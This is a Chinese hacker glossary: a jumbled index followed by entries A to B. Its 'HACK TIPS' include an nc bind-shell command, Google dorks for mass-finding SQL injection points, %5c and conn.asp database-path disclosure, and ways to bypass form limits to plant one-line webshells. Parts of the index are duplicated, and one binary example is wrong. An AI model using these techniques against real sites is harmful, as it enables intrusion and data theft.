- 尘缘雅境图文系统 37
- 动网 45
- 风讯 54
- 脚本语言 80
- 雪人论坛 166

### 数据库

- 表段 28
- 表名 28
- 差异备份 35
- 查询语句 35
- 存储过程 35
- 库名 93
- 跨库查询 93
- 列名 100
- 子查询 182
- 字段 183

### 病毒与恶意软件

- 病毒库 29
- 病毒体 30
- 冲击波 37
- 恶意插件 48
- 宏病毒 67
- “红色代码”蠕虫 70
- 间谍软件 77
- 流氓软件 103
- 逻辑炸弹 107
- 魔鬼波 110
- 蠕虫 126
- 守护进程 142
- 宿主 144
- 振荡波病毒 174

- 黑客必备工具包 66
- 黑雨 66
- 红蜘蛛键盘记录器 66
- 花蝴蝶免杀加花正式版 69
- 灰鸽子 73
- 机时小偷 76
- 狂芒幽灵 96
- 流光 100
- 明小子的 PHP 注入工具 109
- 明小子的旁注 WEB 综合检测程序 109
- 上兴远程控制 140
- 网络神偷 154
- 网络执法官 155
- 下载者 160
- 嗅探器 166

### 应用程序

- 冰刃 29
- 超级远程管理 SuperRA 36
- 风云防火墙 54
- 还原精灵 71
- 灰鸽子清除器 73
- 江民杀毒软件 78
- 金山毒霸 80
- 卡巴斯基 85
- 美萍安全卫士 108
- 锐起无盘 XP 管理器 127
- 瑞星杀毒软件 127
- 天网防火墙 147
- 万象 153
- 维客远程控制系统 157
- 文件夹加密大师 157
- 虚拟桌面专家 164
- 迅雷 166
- 影子系统 168
- 终端连接器 177

### 安全技术

- 安全策略 20
- 安全等级 20
- 安全分析专家 21
- 安全公告 21
- 安全增强 Linux 22
- 安全证书 22
- 贝叶斯过滤 26
- 病毒库 29
- 不可逆加密算法 30
- 不对称加密算法 30
- 防火墙策略 51
- 防注 52
- 访问控制模型 52
- 访问控制列表 52
- 附加码 56
- 高危端口 57
- 个人防火墙 58
- 公共加密算法 59
- 公钥 59
- 钩子 60
- 过滤 63
- 过滤语句 63
- 哈希函数 64
- 还原卡 71
- 畸形 URI 76
- 卡巴斯基 85
- 密码强度 108
- 蜜罐 108
- 明文 109
- 内存特征码 113
- 软件防火墙 126
- 弱口令 127
- 瑞星杀毒软件 127
- 杀毒软件 134
- 实时监控 141
- 私钥 143
- 挑战/响应验证机制 144
- 物理安全 159
- 校验和 161
- 影子系统 168
- 硬件防火墙 170
- 主动防御 188

### 黑客工具

- 啊D网络工具包 18
- 啊D注入（注射）工具 19
- 啊拉QQ大盗 19
- 爱莎网络监控器 19
- 冰河 29
- 穿山甲 37
- 动易 2006 漏洞利用工具 45
- 海洋顶端 ASP 木马 64
- 黑洞 65
- 查壳 35
- 动态调试 42
- 动态分析软件 43
- 动态跟踪 43
- 堆栈 47
- 反编译 49
- 反调试 50
- 反汇编 50
- 节 80
- 入口点 126
- 栈 173
- 中断 175

### 渗透技术

- 踩点 32
- 查点 33
- 刺探 39
- 大马 39
- 端口映射 46
- 克隆账户 88
- 克隆管理员 88
- 内网渗透 114
- 旁注攻击 116
- 权限提升 121
- 输入法漏洞 142
- 提权 145
- 一句话木马 167
- 隐藏账户 168
- 中间人攻击 175
- 注入点 180

### 免杀技术

- 花蝴蝶免杀加花正式版 69
- 花指令 69
- 内存免杀 113
- 区段 120
- 区段技术 120
- 特征码 145
- 修改特征码 161

### 特定名称

- 安全集点 21
- 变异 27
- 变种 27
- 变种编号 27
- 变种木马 27
- 菜鸟 34
- 插件 34
- 初始密码 38
- 盗链 42
- 防盗链 51
- 关键字 60
- 黑客 65
- 黑客守则 66
- 宏 67
- 黑色产业链 70

### 调试技术

# 黑客词典

- 还原 ........... 71 | 错误处理机制 ........... 39  
- 缓冲区 ........... 72 | 反编译 ........... 49  
- 混杂模式 ........... 75 | 钩子 ........... 60  
- 跨站脚本攻击利用平台 ........... 75 | 函数 ........... 65  
- 激活 ........... 76 | 汇编语言 ........... 73  
- 僵尸网络 ........... 78 | 机器码 ........... 75  
- 进制 ........... 82 | 机器语言 ........... 75  
- 开源 ........... 86 | 键盘钩子 ........... 77  
- 逻辑错误 ........... 107 | 句柄 ........... 83  
- 马甲 ........... 108 | 偏移量 ........... 117  
- 免 FSO ........... 108 | 容错处理 ........... 125  
- 木马 ........... 110 | 套接字 ........... 144  
- 木桶理论 ........... 111 | 头文件 ........... 150  
- 苹果机 ........... 117 | 指针 ........... 175  
- 请求注解 ........... 119 | 转义字符 ........... 181  
- 肉鸡 ........... 126 | 字符串 ........... 183  
- 赛门铁克 ........... 134 | 字符型 ........... 184  
- 社会工程学 ........... 140 |  
- 数字型 ........... 143 |  
- 算法 ........... 144 |  
- 腾讯 ........... 145 |  
- 无启动项 ........... 158 |  
- 小榕 ........... 160 |  
- 邪恶八进制信息安全团队 ........... 161 |  
- 序列号 ........... 165 |  
- 压缩打包 ........... 166 |  
- 域名反弹 ........... 172 |  
- 源代码 ........... 172 |  
- 整站程序 ........... 173 |  
- 注册机 ........... 179 |  
- 注册码 ........... 180 |  
- 专杀工具 ........... 181 | 暗桩 ........... 18  
- 标志位 ........... 23 |  
- 重定位 ........... 32 |  
- 重启验证 ........... 32 |  
- 非明码 ........... 53 |  
- 壳 ........... 87 |  
- 手工脱壳 ........... 141 |  
- 脱壳 ........... 150 |  
- 压缩壳 ........... 166 |  
- 侦壳软件 ........... 174 |  
- 注册码跟踪 ........... 180 |  
- 变量 ........... 27 |  
- 遍历 ........... 27 |  
- 遍历目录 ........... 27 |  
- 标识符 ........... 28 |  
- 数据库表 ........... 28 |  
- 常量 ........... 36 |  
- 程序领空 ........... 37 |  
- 交换机 ........... 79 |  
- 可移动磁盘 ........... 88 |  
- 内存 ........... 112 |  
- 扇区 ........... 134 |  
- 网卡 ........... 153 |  
- 引导扇区 ........... 167  

### 程序语言与开发

- 变量 ........... 27  
- 遍历 ........... 27  
- 遍历目录 ........... 27  
- 标识符 ........... 28  
- 数据库表 ........... 28  
- 常量 ........... 36  
- 程序领空 ........... 37  

### 硬件

- 交换机 ........... 79  
- 可移动磁盘 ........... 88  
- 内存 ........... 112  
- 扇区 ........... 134  
- 网卡 ........... 153  
- 引导扇区 ........... 167  

### 加密解密

- 暗桩 ........... 18  
- 标志位 ........... 23  
- 重定位 ........... 32  
- 重启验证 ........... 32  
- 非明码 ........... 53  
- 壳 ........... 87  
- 手工脱壳 ........... 141  
- 脱壳 ........... 150  
- 压缩壳 ........... 166  
- 侦壳软件 ........... 174  
- 注册码跟踪 ........... 180  

### 暗桩（加密解密）

顾名思义，暗就是在暗处，一般比喻隐蔽。暗桩其实就是软件通过注册信息注册成功后，还存在一些功能不能使用，或注册成功一段时间后有些功能不能继续使用的情况。这种情况经常出现在一些试用版中，有时软件作者会采取一些反破解手段，如较有代表性的里诺系列软件、佳宜系列软件等。

### 啊D网络工具包（黑客工具）

一种网上非常流行的黑客工具集，集成了许多黑客工具的功能，因其简洁的界面与傻瓜化的操作深受新手喜爱，如图A-1，其主要功能如下：

- 1. 共享资源查找：为你查找网上的共享资源。  
- 2. 肉鸡查找：查找一个网段 NT/Win2000 密码过于简单的主机，还加入了系统版本识别，使用更方便。  
- 3. 远程服务查看：你可以查看和修改远程的服务，如关闭和启动 Telnet。  
- 4. 查看隐藏共享：查看远程计算机的全部共享（包括隐藏的共享）。  
- 5. 查看用户组信息：Windows 界面查看远程机器的用户和组信息。  
- 6. 开远程的 Telnet：直接开启微软自带的 Telnet，开 Telnet 原来也可如此简单。  
- 7. NT 消息发送：向 NT 的机器发送消息。  
- 8. IP 端口扫描：有针对性地查看整个网段的某个端口，如冰河端口 7626。  
- 9. 端口扫描：使你更加了解对方主机端口的打开状况。  
- 10. 网卡 MAC：快速获取一个网段的用户名、工作组、对方的网卡 MAC 地址。  
- 11. 网络状态查看：想知道自己机器打开了什么端口吗？本程序可帮上你。  
- 12. 主机查询：想知道 IP 的所在地？想知道某地有哪些 IP？本程序可帮上你的忙。  
- 13. Ping：判断某 IP 是否为网络连接的好帮手。  
- 14. 域名<=>IP：想知道域名对应的 IP？想知道 IP 对应的域名？本程序可帮助你。  
- 15. 路由查看：想知道某 IP 经过的路由？本程序能给你答案。  
- 16. Finger：能为你查询对方系统的用户信息。  
- 17. 进程查看：查看正在运行的软件，查木马还是有一定帮助。  
- 18. 本机 IP：在上网时知道自己的 IP。  
- 19. 常用修改：反恶意网页修改、恢复系统设置等。  
- 20. 查错误代号说明。  

#### HACK TIPS

由于全球 IP 地址枯竭，一般个人用户都由 NAT 转换进行上网。同时，由于以往一些蠕虫的影响，许多 ISP 供应商都在路由器上封杀了 139、135 端口，所以在【公网】中使用啊D网络工具包不会有很好的效果，但在【内网】中你或许能发现有用的肉鸡。

### 啊D注入（注射）工具（黑客工具）

一种傻瓜化图形界面的注入工具，让许多人摆脱了手工在浏览器上猜解的麻烦，准确率与速度都较高，是同类程序中的精品，但只能对 ASP 进行注入，界面如图A-2。

- 管理入口扫描目录。  
- 扫描注入：检测一个脚本页面的连接是否有注入问题。  
- 目录查看：可以通过注入点扫描出主机的文件目录。  
- CMD／上传：利用 xp_cmdshell 或 Wscript.shell 进行命令输入。  
- 读注册表：可以批量读取注册表数据。  

其它类似的工具还有很多，如大名鼎鼎的 NBSI、CASI、【明小子的旁注WEB综合检测程序】、【穿山甲】等。

#### HACK TIPS

一种普遍的大范围找注入点的方法是：在啊D注入工具的扫描注入点栏自带的浏览器中访问 Google，再在其中输入如“inurl:news.asp?id=”之类的 ASP 程序名（前面要加 inurl:），因为啊D会自动遍历浏览器中所有的连接，因此这样就可大范围地找到注入点了。对于单个站点，在 Google 中输入“site:站点域名 inurl:.asp”，出来的结果全部为该站点的页面，啊D也会自动遍历，因此节省了很多时间，如图A-3。

### 啊啦QQ大盗（黑客工具）

一种盗取 QQ 的木马类黑客工具，支持网站收信与邮箱收信两种模式，现已成为各大杀毒软件的追杀对象，如图A-4。

### 爱沙网络监控器（黑客工具）

一款利用 ARP 欺骗原理制作的网络监控软件，如图A-5，它可以只通过局域网中任意一台主机的安装，达到监控整个局域网的目的，其原理与 CAIN 相似，只不过加入了傻瓜式的自动分析功能，将数据报按照协议形式分成了网页记录、QQ聊天记录、收发邮件记录、FTP记录等。

### 安全策略（安全技术）

策略在计算机领域中被用于表示特定系统的特定规则，而安全策略是指为保护计算机安全所指定的规则，如将密码设置得更强壮、设置系统权限等。

### 安全等级（安全技术）

表示安全状态及所要求的不同级别。美国国防部为计算机安全的不同级别制订了 4 个准则：

- 1、D1级  

这是计算机安全的最低级，整个计算机系统是不可信任的，硬件和操作系统很容易被侵袭。

D1级的计算机系统包括：

- MS-DOS  
- MS-Windows 3.x 及 Windows95（不在工作组方式中）  
- Apple 的 System 7.x  

- 2、C1级  

C1级系统要求硬件有一定的安全机制（如硬件带锁装置和需要钥匙才能使用计算机等），用户在使用前必须登录到系统。C1级系统还要求具有完全访问控制的能力，应当允许系统管理员为一些程序或数据设立访问许可权限。

常见的 C1 级兼容计算机系统如下：

- UNIX 系统  
- XENIX  
- Novell 3.x 或更高版本  
- Windows NT  

- 3、C2级  

C2级在 C1 级的某些不足之处加强了几个特性，它引进了受控访问环境（用户权限级别）的增强特性，这一特性不仅以用户权限为基础，还进一步限制了用户执行某些系统指令。

常见的 C2 级操作系统有：

- UNIX 系统  
- XENIX  
- Novell 3.x 或更高版本  
- Windows NT  

- 4、B1级  

B1级系统支持多级安全，多级是指这一安全保护安装在不同级别的系统中（网络、应用程序、工作站等），它对敏感信息提供更高级的保护。例如安全级别可分为解密、保密和绝密。

- 5、B2级  

这一级别称为结构化的保护（Structured Protection）。B2级安全要求计算机系统中所有对象加标签，而且给设备（如工作站、终端和磁盘驱动器）分配安全级别，如用户可以访问一台工作站，但可能不允许访问装有员工工资资料的磁盘子系统。

- 6、B3级  

B3级要求用户工作站或终端通过可信任途径连接网络系统，这一级必须采用硬件来保护安全系统的存储区。

- 7、A级  

这是橙皮书中的最高安全级别，这一级有时也称为验证设计。在 A 级中，所有构成系统的部件来源必须保证安全，这些安全措施还必须担保在销售过程中这些部件不受损害。例如，在 A 级设置中，一个磁带驱动器从生产厂房直至计算机房都被严密跟踪。

### 安全分析专家

擅长于处理安全事件的专业人员，其安全事件包括入侵检测、安全评估、安全加固等。

### 安全公告

关于计算机与网络安全方面信息的公告，如新发现有威胁很大的漏洞、病毒的爆发等。不过安全公告只有权威部门与大型公司才有资格发布，如微软或国家计算机网络应急技术处理协调中心等。

### 安全焦点（特定名称）

我国著名安全组织，标志如图A-6，是国内许多元老级黑客的聚集地，于1999年8月由 xundi 发起建立，其网址是 http://www.xfocus.net，代表作是【X-SCAN】漏洞扫描器。冰河木马的作者黄鑫亦是此组织成员。

### 安全模式（操作系统及其相关）

在 Windows 系统中有一个安全模式，一般情况下我们进入安全模式的时候并不多，如果计算机死机、无法正常关机或重新启动时，可先进入“安全模式”解决问题后再进行重启，回到原先使用的操作系统。

**进入安全模式的方法：**重新启动计算机后按 F8 进入 Windows 启动选项菜单，然后选择安全模式。

通过“安全模式”进入 Windows 系统与正常启动进入 Windows 系统不一样，它不会加载其它驱动程序或应用程序，同时也只会启动最基本的 Windows 服务，其它多余服务一经改动便不运行。所以“安全模式”是最基本、最安全的启动模式。

下面对 Windows 启动的这些模式做些简单介绍：

- 1. **安全模式**：只使用基本文件和驱动程序，并支持鼠标（USB鼠标除外）、监视器、键盘、硬盘、基本视频、默认系统服务等，无网络连接。  
- 2. **网络连接的安全模式**：在普通安全模式的基础上增加了网络连接，但有些网络程序可能无法正常运行；还有很多自启动应用程序不会自动加载（如防火墙、杀毒软件等），因此需要注意手动加载。  
- 3. **启动日志**：记录启动模式，记录 Windows 驱动程序加载时的详细清单，启动结果保存在系统磁盘下的 bootlog.txt 中。  
- 4. **启用 VGA 模式**：利用基本 VGA 驱动程序启动。当安装了使 Windows 不能正常启动的新视频卡驱动程序时，这种模式十分有用。  
- 5. **带命令行提示符的安全模式**（SAFEBOOT_OPTION=Minimal(AlternateShell)）：只使用基本的文件和驱动程序来启动，在登录后，屏幕上显示命令提示符，而非 Windows 图形界面。  

不管以哪种形式的安全模式启动，它总是使用基本的视频驱动程序。因此，这些模式下屏幕的分辨率为 640×480，且不能改动，但可重新安装驱动程序。

### 安全增强 Linux（安全技术，操作系统及其相关）

安全增强 Linux 即 SELinux，全名为 Security-Enhanced Linux，是种基于域-类型模型（domain-type）的强制访问控制（MAC）安全系统，是美国国家安全局（NSA）对于强制访问控制的实现。

它由 NSA 编写并设计成内核模块包含到内核中，相应的某些安全相关的应用也被打了 SELinux 的补丁，最后还有一个相应的安全策略。它旨在提高 Linux 系统的安全性，提供强健的安全保证，可防御未知攻击，据称相当于 B1 级（见“安全等级”）的军事安全性能，比 Windows 所谓的 C2 高得多。

应用 SELinux 后，可以减轻恶意攻击或恶意软件带来的灾难，并提供对机密性和完整性有很高要求的信息安全保障，是 Linux 中最杰出的新安全子系统。

SELinux 默认安装在 Fedora 和 Red Hat Enterprise Linux 上，也可作为其他发行版上容易安装的包得到。大部分使用 SELinux 的人使用的都是 SELinux 就绪的发行版，如 Fedora、Red Hat Enterprise Linux（RHEL）、Debian 或 Gentoo，它们都是在内核中启用 SELinux 的，且提供一个可定制安全策略，还提供很多用户层的库和工具，它们都可使用 SELinux 的功能。

### 安全证书（安全技术）

安全证书又称数字证书，即“Digital ID”，它等效于一张数字身份证。数字证书提供了一种在 Internet 上身份验证的方式，是用来标识和证明通信双方身份的数字信息文件，其功能与日常生活中的身份证相似。

在网上进行电子商务活动等金融业务时，交易双方需要使用数字证书来表明自己的身份，并使用数字证书来进行有关交易操作。通俗地讲，数字证书就是个人或单位在 Internet 上的身份证，它由认证权威机构（即 CA，例如“VeriSign, Inc.”）对某个拥有者的公钥进行核实之后发布。具体地说，数字证书是一个经证书授权中心数字签名的、包含公开密钥拥有者信息以及公开密钥（见“密钥”）的文件。证书通过加密的邮件发送以证明发信人确实和其宣称的身份一致。

#### HACK TIPS

安全证书的应用无处不在，离我们最近的应该就是网上银行的证书了，安装后如图A-7。持有这个安全证书的计算机访问网银主页，才能进行付款转账等业务，大大提高了网上交易的安全性。

### 二进制（黑客技术基础）

由于数据在计算机中的表示以二进制的形式存在，所以有时使用二进制可更直观地解决问题。但它太长了，如 int 类型占用 4 个字节，32 位，数字 100 用 int 类型的二进制数表达将是：0000 0000 0000 0000 0110 0100。

在平常编程时用二进制表示数字不方便，但用 16 进制或 8 进制可以解决这个问题。因为进制越大，数的表达长度也就越短。不过，为什么偏偏是 16 或 8 进制，而不是其他诸如 9 或 20 进制呢？

因为 2、8、16 分别是 2 的 1 次方、3 次方、4 次方，这一点使得三种进制间可以非常直接地互相转换。8 进制或 16 进制缩短了二进制数，但保持了二进制数的表达特点。

### 标志位（加密解密）

标志位是爆破技术中常用的一种方法，随着对破解的深入，破解者会慢慢了解到标志位爆破是一个非常好用的爆破方法。有时候一般的爆破并不能对软件的注册产生影响，而标志位爆破能使软件完全解除其功能限制，是一种比较完美的爆破方法。常见的是对 eax 赋 1，也就是说，当 eax 的值为 1 时，将会被判断为注册成功；eax 为 0 就表示注册失败。

### 半开放扫描（黑客技术基础）

全称为 TCP 半开放扫描，又称 SYN 扫描，一般在扫描器上应用得比较广。TCP 半开放式扫描通过对每个端口进行第一次半度三次握手，以此来检测端口的开启情况。

一般的 TCP 三次握手连接程序如下，从而达到通信连接：

- Client — SYN → Server  
  Client ← SYN/ACK — Server  
  Client — ACK → Server  

- Client — SYN → Server  
  Client ← SYN/ACK — Server  

上面只完成了一次半握手，此时如果 Server 返回 RST，就表示端口没有处于侦听状态。如果收到一个 SYN|ACK，则扫描程序必须再发送一个 RST 信号来关闭这个连接过程。由于没有建立完整的连接，所以这种扫描技术一般不会在目标计算机上留下记录，但这种方法的缺点是：必须要有最高权限才能建立自己的 SYN 数据包。

#### HACK TIPS

SYN 扫描是非常流行的扫描形式，著名的【扫描器】NMAP 的默认扫描形式就是这种。SYN 扫描执行得很快，在一个没有防火墙的快速网络上，每秒可以扫描数千个端口。SYN 扫描相对来说不张扬，不易被注意到，因为它从来不完成 TCP 连接。

## B 黑客词典

## 绑定IP和MAC 黑客技术基础

一般来说，计算机在网络中是分开对IP地址与MAC进行主机判断，绑定IP和MAC就是将IP地址与MAC地址静态设置并联系起来进行判断。这种技术开始在许多宽带小区或学校里使用，因为这样可以很容易地控制一个用户的上网情况，当用户没有缴纳费用时，可通过封杀此用户的MAC地址来限制其上网。

### HACK TIPS:

随着PPPOE的普及，现在这一技术主要用来防止ARP欺骗，过程一般是绑定网关的IP与MAC地址。在Windows主机上绑定IP地址与MAC可用MAC-S命令。

当然，突破这种绑定进行欺骗也不是不可能的，一种可以实现的思路是利用大量伪造的UDP包来欺骗交换机，让【交换机】本来应该传送进B端口的数据传送进了A端口，详情请见【交换机】词条。

## 绑定SHELL 攻击方法与行为

一般的木马或后门在开放受害主机端口后，常会监视此端口所收到的数据，并将此数据作为命令发送给本地SHELL进行执行，其基本过程是先让程序运行，然后监听指定端口，在端口与程序之间建立管道，传送数据流。这样，所有从网上传送进此端口的都会交给程序处理，程序再返回信息给远程控制主机。

### HACK TIPS:

绑定SHELL对于新手来说，用编程来实现较为复杂，我们可以使用NC来绑定SHELL，很简单。过程为：在远程主机的CMD下运行`nc -l -p 1989 -t -e cmd.exe`，这样就把一个SHELL绑定在1989端口上了。然后在本地主机下，用TELNET连接远程主机的1989端口，即可执行命令。

## 绑定端口 黑客技术基础

绑定端口就是指定程序开启端口并监视其数据流的过程。

## 绑定域名 黑客技术基础

将特定域名所指向的IP进行设置就称为绑定域名。一般我们向虚拟空间服务商申请了虚拟空间后需要一个域名来访问，这时就需要绑定域名，向域名服务商提出申请。

## 报头 黑客技术基础

网络协议数据包用来表示必要信息的部分就称为报头，一般都放置在数据包的最前端，大多数网络协议都有报头（如ARP、TCP、IP等）。形象地说，它就像我们寄信时的信封，上面写了目的地地址、信件的长度等必要信息。

### HACK TIPS:

报头是一个数据包最关键的部分，许多欺骗攻击都是由报头而起，不论是ARP欺骗、DNS欺骗还是IP欺骗，都与报头有着紧密关系，所以要发起底层攻击，学好报头结构是必须的。

## 报头数据结构 黑客技术基础

又称报头格式。报头中对信息的存放都有严格的规则，这种规则称为报头的数据结构。如图B-1，是一个IP数据报头的数据结构。

| 版本号VER | IP报头长度IHL | 服务类型TOS | 数据报长度TL |
|---|---|---|---|
| 报文标志ID | 报文标志F | 分段偏移量FO |  |
| 生存时间TTL | 协议号PORT | 报头校验和 |  |
| 源地址 | 目标地址 | 任意项和填充位 |  |

## 暴错 黑客技术基础

许多程序在接收到错误数据或指令时会将此信息返回给用户，告诉其错误所在，这就叫做程序报错。而在进行入侵时，入侵者常需要通过报错返回信息来判断目标的情况，此思想在SQL注入中随处可见。

### HACK TIPS:

暴错的思想在入侵时广泛被应用，例如在判断服务器架构及软件运行版本时，可输入一个无效地址，对于错误处理没有设置好的服务器，往往会返回默认的一些信息，如图B-2所示。



以图B-2为例，我们可以看到，错误显示出站点为PHP+MYSQL的架构，PHP版本为PHP/5.1.4-0.1，WEBSERVER使用的是Apache/2.0.55。基于以上几点，大概能判断出服务器使用的是*NIX。

进行SQL注入时，也可利用报错来判断服务器到底有无漏洞。例如在URL后加一个单引号，没有做过滤措施的网站会出现一定的错误，PHP网站的错误信息如下：

Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource in /data/webroot/zh/newslook.php on line 264

这样，不仅说明服务器有注入漏洞，也把本地路径给暴了出来。

## 暴库 攻击方法与行为

暴库即通过报错或其他方法将数据库放置的绝对路径及其他信息暴露出来的俗称。常见的有著名的`%5c`暴库法，简单地说就是打开网页时，把网址中的“/”换成“%5c”，然后提交，暴出数据库的路径。

实际上，这种方法并不是对所有网址都有效，需要“asp?id=”这样的网页地址（表示有调用数据库的行为），如果你确认这个网页有调用数据库，后面不是这样的也可以。

当将`http://www.xx.com/cody%5cview.asp?id=3`改为`http://www.xx.com/cody%5cview.asp?id=3`，提交后会得到如下结果：

Microsoft JET Database Engine 错误 '80004005'  
'D:\web\admin\nohack.mdb'不是一个有效的路径。确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。

另外一种广泛应用的暴库法就是CONN.ASP暴库法，CONN.asp作为数据库连接文件，里面包含了被调用数据库的路径及名称等。如果是调用MSSQL数据库，那么还会含有SQL连接的用户名及密码等内容。另外，数据库连接文件的名字并不都是conn.asp，有的系统可能是别的名称。

为什么直接访问数据库连接文件就能暴出数据库地址呢？这是因为数据库连接文件与调用文件的相对路径出错了。

相对路径就是相对于服务器管理WEB根目录的路径，比如IIS根目录为`D:\wwwroot\`，那么在此目录下有一inc目录，现在要访问inc这个目录下的文件，只需在浏览器中输入`http://127.0.0.1/inc`，而不是输入`http://127.0.0.1/wwwroot/inc`。

这里的inc目录是相对于wwwroot为根目录的一级目录，记着是“相对于”；而inc这个目录的绝对路径是`D:\wwwroot\inc`，是个二级目录，记着是“绝对路径”。

假设现在IIS上架构了一套BBS系统，系统的conn.asp放在根目录下的inc目录，而我们许多调用conn.asp的文件都是放在根目录下的，所以，考虑到执行目录的不同，在conn.asp文件中数据库的相对地址就写成了“数据库所在目录/数据库名”的形式。

一般BBS系统默认的conn.asp文件代码中就包括数据库的路径，当conn.asp被根目录下的其他文件调用时，它连接的是根目录中data目录下的*.mdb文件；而当用户直接访问inc目录下的conn.asp时，根据conn.asp中的内容，服务器就会去请求连接inc目录下的data目录，那么相对路径就变成了inc/data。

但inc目录下并没有data这个目录和相关文件，所以服务器就会报错，显示出错信息。我们把这类漏洞称为conn.asp暴库，准确地说，应该叫做“数据库连接文件暴库漏洞”。

## 暴力破解 攻击方法与行为

用穷举法（见“穷举法”）破解密码的俗称。许多人认为如果使用足够长的口令，或者使用足够完善的加密模式，就能有一个攻不破的口令。事实上没有攻不破的口令，这只是个时间问题。如果有速度足够快的计算机能尝试字母、数字、特殊字符所有的组合，将最终能破解所有口令，这种类型的攻击方式叫强行攻击。

使用强行攻击，先从字母a开始，尝试aa、ab、ac等等，然后尝试aaa、aab、aac……暴力破解一般在进行【词典破解】无效时使用，所消耗的资源与时间较大，有的书上将其翻译为蛮力攻击。

攻击者也可利用分布式攻击。如果攻击者希望在尽量短的时间内破解口令，他不必购买大量昂贵的计算机，只要入侵几个有大批计算机的公司并利用他们的资源破解口令即可。

## 暴路径 攻击方法与行为

通过【暴错】或其他方法使网页或数据库的绝对路径暴露出来。

## 暴破解 攻击方法与行为

【暴力破解】的简称。

## 贝叶斯过滤 安全技术

一种著名的反垃圾邮件技术。托马斯·贝叶斯是一位英国牧师、数学家，根据贝叶斯理论，通过已经发生的事件可预测未来事件发生的可能性。

将该理论运用到反垃圾邮件上就是：若已知某些字词经常出现在垃圾邮件中，却很少出现在合法邮件中的话，当一封邮件含有这些字词时，那么它是垃圾邮件的可能性就很大。

## 本地 黑客技术基础

与远程所对应的词语。

## 本地监听端口 黑客技术基础

在【本地主机】上所开放的端口，也称本地端口。

## 本地主机 黑客技术基础

使用者通过物理接触控制的主机，与远程主机相对应。

### HACK TIPS:

在本地测试漏洞或程序时，常常要自己连自己，也就是连接本地主机的端口，这时可用本地回环地址127.0.0.1代替本地主机的IP。

## 变量 程序语言与开发

变量是程序中数据的临时存放场所，一般只在内存中驻留，不能永久保存。在代码中可以只使用一个变量，也可以使用多个变量，变量中可以存放单词、数值、日期以及属性。由于变量让你能把程序中准备使用的每一段数据都赋给一个简短、易记的名字，因此它十分有用。变量可以保存程序运行时用户输入的数据、特定运算的结果以及要在窗体上显示的一段数据等。

## 变异 特定名称

常用来指病毒或木马经过修改后功能上与代码上的变化，变异后的病毒或木马一般是为了避免被杀毒软件清除，同时变得更加具有危害性。

## 变种 特定名称

【变异】的别称。

## 变种编号 特定名称

区分病毒与木马变种的特定编号。大部分病毒与木马都有多个变种，为了区分而需要变种编号。

## 变种木马 特定名称

经过免杀修改或功能修改的木马。这种木马一般不是原作者发布的，而是其他人【反编译】修改后再发布的。

## 遍历 程序语言与开发

计算机程序算法的一种。遍历是二叉树上最重要的运算之一，是二叉树上进行其他运算的基础。所谓遍历是指沿着某条搜索路线，依次对树中每个结点均做一次且仅做一次访问。访问结点所做的操作依赖于具体的应用问题。

## 遍历目录 程序语言与开发

所谓遍历目录，就是给定一个目录，访问其中的所有文件（包括【子目录】下的文件）。而迭代是比较常用的遍历算法，此乃遍历在实际编程中的应用，只不过树中的节点变成了文件夹。

## 标识符 程序语言与开发

标识符是编程过程中为区别【变量】、符号常量、【函数】、数组、文件、类、对象等所起的表示名称。

## 表 数据库

表是数据库中最重要的对象，它主要用来保存数据内容，其形式与生活中所见到的表相同，分行与列，每一列的名称称为字段名。

## 表单 黑客技术基础

表单（Form）是网页与用户接触最直接、最频繁的页面元素，其在网站用户体验中占有最重要的位置。而表单也常用于用户注册、登录、投票等功能，是吸引、留住新用户的重要工具。如我们在注册论坛时填写资料的页面就叫表单。

### HACK TIPS:

表单是提交数据给服务器的入口，也是最容易出问题的地方。当我们需要【跨站】或写入【一句话木马】时，表单有时限制了字符的长度，导致我们无法输入完整的代码，此时的处理思路一般有两种。

一种是将网页保存到本地然后将字符长度修改，再提交。例如某留言本的表单代码如下：

```html
<form method="POST" action="login.asp">
<div align="center">
<center>
<table border="0" cellpadding="0" cellspacing="0" style="border-collapse: collapse; font-size:14px" bordercolor="#111111" id="AutoNumber1">
<tr>
  <td height="30" align="right">用户名: </td>
  <td><input type="text" name="strUid" size="10"></td>
</tr>
</table>
```

保存到本地后，先把action地址前加上网站完整的域名。例如这个登录页面为`http://www.seekseek.net/liuyan/liuyan.htm`，就把action地址改为`http://www.seekseek.net/liuyan/login.asp`即可。再修改size为你想要的大小，如`size="50"`，这样就是完整的代码了。

二是将POST包抓下来修改其中的字符，再提交。这种方法一般是利用wsockexpert将POST包抓下来，再利用NC进行提交。有些程序员喜欢将过滤函数写进JS放于网页中，这样也可用上述方法轻松绕过。

## 表段 数据库

数据库表字段的简称，即数据库表中每一列的名称，又称字段。

## 表名 数据库

即表的名称。

## 冰河 黑客工具

国内早期最优秀的木马，如图B-3，由安全焦点的黄鑫开发。可以说冰河是那个时代所有中国黑客入门的必学工具，是中国木马的起源。作为木马，冰河创造了最多人使用、最多人中马的记录。而具有讽刺意味的是，作为作者的黄鑫当初只是将它作为远程控制软件而开发。

